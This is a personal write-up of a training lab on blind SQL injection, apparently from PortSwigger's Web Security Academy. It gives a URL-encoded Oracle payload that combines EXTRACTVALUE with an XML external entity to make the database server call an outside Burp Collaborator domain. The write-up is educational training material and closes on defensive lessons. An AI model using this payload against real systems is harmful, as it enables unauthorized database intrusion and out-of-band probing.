



# Blind SQL Injection with Out-of-Band Interaction

## Objectives

To solve the lab, exploit the SQL injection vulnerability to trigger a DNS lookup to Burp Collaborator.

## Background

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and does not affect the application's response. However, it is possible to exploit this behavior to trigger out-of-band (OAST) interactions with an external domain. In this lab, the objective is to cause the database server to perform a DNS lookup to a domain controlled by Burp Collaborator.

## Tools Used

- Burp Suite
- Chrome
- Burp Collaborator

## Methodology

After accessing the lab, I intercepted a request to the application and forwarded it to Burp Suite Repeater.



Next, I appended an SQL injection payload to the `TrackingId` cookie to trigger a DNS lookup. I obtained the payload from PortSwigger's SQL injection payload resources.

```sql
'%2bSELECT%2bEXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual
```

The payload uses Oracle's `EXTRACTVALUE()` function together with an XML external entity (XXE). The external entity references a URL, causing the database server to attempt an external DNS lookup when the XML is processed.

I then replaced `BURP-COLLABORATOR-SUBDOMAIN` with my Burp Collaborator subdomain. To do this, I right-clicked in the request editor and selected the option to insert the Collaborator payload. The subdomain generated for my session was:

```text
w63cwou0ogg3bycaeuvotjmew52wqqef.oastify.com
```



After submitting the request, the application displayed a message indicating that the lab had been completed. However, I wanted to verify that the expected out-of-band interaction had actually occurred, so I switched to the Burp Collaborator tab and checked for incoming interactions.



As shown above, Burp Collaborator recorded a DNS lookup from the database server. This confirmed that the payload successfully triggered the out-of-band interaction.

## Results

- Successfully exploited the blind SQL injection vulnerability.
- Triggered an out-of-band DNS lookup to the Burp Collaborator domain.
- Verified the DNS interaction in Burp Collaborator.

## Reflection

An attacker does not always need to retrieve data directly through the application. If the database server can be induced to make external requests, those interactions can provide evidence that a query was executed and that the injection is exploitable.

It also reinforced the importance of monitoring outbound DNS and network traffic. Unexpected external lookups originating from database servers may indicate attempted exploitation or other suspicious activity.